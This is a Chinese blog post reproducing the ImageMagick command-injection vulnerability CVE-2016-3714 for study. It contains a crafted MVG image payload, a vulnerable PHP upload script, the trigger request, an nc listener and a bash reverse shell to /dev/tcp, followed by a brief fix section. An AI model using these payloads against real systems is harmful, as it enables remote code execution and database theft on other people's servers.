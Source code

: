 ```yaml
---
title: ImageMagick远程命令执行漏洞
id: 297
categories:
  - linux
  - php
date: 2016-05-19 23:26:42
tags:
---
```


最近ImageMagick爆出了命令执行漏洞，此漏洞允许攻击者通过上传恶意构造的图像文件，在目标服务器执行任意代码。参见中文版说明：

> [CVE-2016-3714 - ImageMagick 命令执行分析](http://drops.wooyun.org/papers/15589)
> [安全预警：ImageMagick图象处理软件存在远程代码执行(CVE-2016-3714)](http://www.freebuf.com/vuls/103504.html)

## 漏洞重现

1 先构造一个.mvg格式的图片，在其内容中可以注入任意命令。这里命名为`test.gif`：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|curl http://127.0.0.1/hasbug; ")'
pop graphic-context
```

第三行就是注入的命令，用双引号作为注入分隔。后面的`curl http://127.0.0.1/hasbug;`就是可执行的命令。

2 测试漏洞的脚本`http://localhost/test.php`，只需要一行代码：

```
<?php
new Imagick($_FILES['file']['tmp_name']);
```

3 在有漏洞的网站触发此执行漏洞：

```
$ curl -F "file=@test.gif" "http://localhost/test.php"
```

现在目标服务器就会执行注入的命令 `curl http://127.0.0.1/hasbug;`

## 漏洞影响

上面注入的脚本`curl`只是试探一下，我们可以通过反向shell的技巧执行任意命令。

1 在执行前，需要在自己的服务器上建立命令执行平台：

```
$ nc -l 127.0.0.1:1234 -vvv
```

2 要注入的反向shell命令，替换`curl`的试探命令：

```
bash -i > /dev/tcp/127.0.0.1/1234 0<&amp;1 2>&amp;1
```

反向shell的作用是请求上面`nc`命令监听的`127.0.0.1:1234`，并且执行`nc`后续输入的远程命令。

> [Linux建立反向shell的几种方式](http://xkon.github.io/2015/09/04/Linux%E5%BB%BA%E7%AB%8B%E5%8F%8D%E5%90%91shell%E7%9A%84%E5%87%A0%E7%A7%8D%E6%96%B9%E5%BC%8F/)

3 由于服务器执行PHP的用户默认是`nobody`，对web目录一般都没有写权限。那么能干什么呢？

1.  查看程序源代码
2.  获得mysql数据库的访问权限
3.  执行mysqldump等数据导出命令

这个漏洞的主要的危害是数据泄漏。

据传 http://nulled.io/ 就是中了ImageMagick这个漏洞，导致9G大的数据库泄漏了。

> [国外知名黑客论坛被黑，疑因imageTragick漏洞](http://www.freebuf.com/news/104757.html)

## 漏洞修复

这个漏洞影响ImageMagick 6.9.3-9以前的所有版本，可以通过更新ImageMagick库，或者在程序中用`getimagesize()`先对上传文件检验一下。

详细方法见开头的分析链接。
